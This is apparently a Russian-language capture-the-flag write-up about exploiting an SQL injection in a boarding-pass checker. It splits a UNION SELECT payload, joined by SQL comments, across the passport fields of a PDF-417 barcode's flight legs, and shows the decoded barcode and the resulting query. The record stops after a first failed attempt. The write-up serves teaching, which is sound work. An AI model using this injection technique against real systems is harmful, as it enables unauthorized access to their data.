




# Пепелац девелопмент

Проанализируем исходный код и найдем место, уязвимое к SQL инъекции:



Осталось понять откуда берется `leg.document_number` и как обойти мешающий нам `" OR ".join()`

### `leg.document_number`

Просмотрев код еще пару раз, понимаем, что данное значение получается при парсинге штрихкода билета PDF-417, который можно сгенерировать на [its-cosmoflot-emf9yki3.spbctf.ru](http://its-cosmoflot-emf9yki3.spbctf.ru/). Так как он имеет определенную длину - 10 цифр (что определенно мало для эксплуатаии SQLi), оформим билет с максимально возможным количеством рейсов:


<hr>


Раздекодим билет для дальнейшей эксплуатации, я воспользовался [данным сайтом](https://products.aspose.app/barcode/recognize):

```
M9ASD/ASD             EFT5LSE EARMARCF 1506 197Y015B0080 13B>60B1PP2197PCF 2A991300000000331CF                     0K NTANX3V MAREARCF 1507 197Y015B0074 12C2A991300000000331CF                     0K NNHHYCT EARMARCF 1506 197Y015B0010 12C2A991300000000331CF                     0K NHWR40R MAREARCF 1507 197Y015B0038 12C2A991300000000331CF                     0K NPPSIWY EARMARCF 1506 197Y015B0008 12C2A991300000000331CF                     0K NJW27YM MAREARCF 1507 197Y015B0055 12C2A991300000000331CF                     0K N1JZNRZ EARMARCF 1506 197Y015B0008 12C2A991300000000331CF                     0K NXK3BY3 MAREARCF 1507 197Y015B0035 12C2A991300000000331CF                     0K NO23JDQ EARMARCF 1506 197Y015B0086 12C2A991300000000331CF                     0K N
```

### " OR ".join()

Обойдем данное "ограничение" при помощи комментариев языка SQL:

| Номер рейса | Значение пасспорта |
|:-----------:|:------------------:|
| 1           | `1 UNION /*`       |
| 2           | `*/SELECT/*`       |
| 3           | `*/* FROM/*`       |
| 4           | `*/ban   /*`       |
| 5           | `*/OFFSET/*`       |
| 6           | `*/1; --   `       |

Заменим первые шесть значений *30000000003* на новые. После объединения, запрос примет такой вид:

```sql
SELECT * FROM ban WHERE passport = 1 UNION /* OR passport = */SELECT/* OR passport = */* FROM/* OR passport = */ban   /* OR passport = */OFFSET/* OR passport = */1; --  OR passport = 3000000003
/* Что эквивалентно */
SELECT * FROM ban WHERE passport = 1 UNION SELECT * FROM ban OFFSET 1;
```

Генерирует штрихкод и пробуем с ним пройти на посадку:



Не получилось, попробуем с `OFFSET 2`:


